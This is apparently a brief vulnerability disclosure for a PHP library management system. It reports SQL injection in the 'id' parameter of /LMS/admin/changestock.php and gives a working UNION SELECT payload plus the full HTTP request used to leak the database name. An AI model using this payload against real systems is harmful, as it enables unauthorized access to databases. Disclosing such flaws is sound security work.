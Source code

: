 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/changestock.php

Vulnerability location: /LMS/admin/changestock.php?id=, id

[+] Payload: /LMS/admin/changestock.php?id=1%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /LMS/admin/changestock.php?id=1%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180450334-15ade250-f09a-4ead-95a9-2441030caef5.png)
